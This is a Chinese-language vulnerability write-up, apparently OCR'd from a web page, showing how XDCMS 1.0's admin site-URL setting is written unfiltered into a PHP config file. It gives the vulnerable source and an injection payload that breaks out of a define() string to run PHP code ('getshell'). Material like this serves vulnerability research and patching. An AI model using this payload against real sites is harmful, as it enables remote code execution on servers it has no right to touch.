 ```yaml
---
title: "XDCMS 1.0 后台配置文件getshell"
id: zhfly3279
---
```


# XDCMS 1.0 后台配置文件getshell

## 一、漏洞简介

## 二、漏洞影响

XDCMS 1.0

## 三、复现过程

![image](../img/3988f8dd1cc9fd1956bf8557fbccccfe.png)

刚看到这里的时候，这里的网站地址:`http://127.0.0.5`我很好奇是干嘛的，因为它现在写的是127.0.0.5而网站的ip与这个无关，去翻翻源码看看这玩意是干嘛的

```
if($tag=='config'){
    //判断url是否以/结尾
    $urlnum=strlen($info['siteurl'])-1;
    if(substr($info['siteurl'],$urlnum,1)!="/"){
        showmsg(C("update_url_error"),"-1");
    }//end

```
$cms=SYS_PATH.'xdcms.inc.php';   //生成xdcms配置文件
$cmsurl="&lt;?phpn define('CMS_URL','".$info['siteurl']."');n define('TP_FOLDER','".$info['template']."');n define('TP_CACHE',".$info['caching'].");n?&gt;";
creat_inc($cms,$cmsurl); 
``` 
```

点击保存后，网站获取siteurl没有经过过滤，就拼接到cmsurl字符串变量里去了，然后根据这个cmsurl生成配置文件

配置文件：

```
<?php
 define('CMS_URL','http://127.0.0.5/');
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里我们可以构造siteurl：

```
hello');?><?php phpinfo();?> 
```

点击保存后，我们去查看一下该配置文件：

```
<?php
 define('CMS_URL','hello');?><?php phpinfo();?>';
 define('TP_FOLDER','dccms');
 define('TP_CACHE',false);
?> 
```

这里的配置文件内容生成外部参数可控，导致了可直接getshell

访问该配置文件页面：`http://www.0-sec.org/system/xdcms.inc.php`

![image](../img/e4baad37300c171b6c8e86e50c4d094d.png)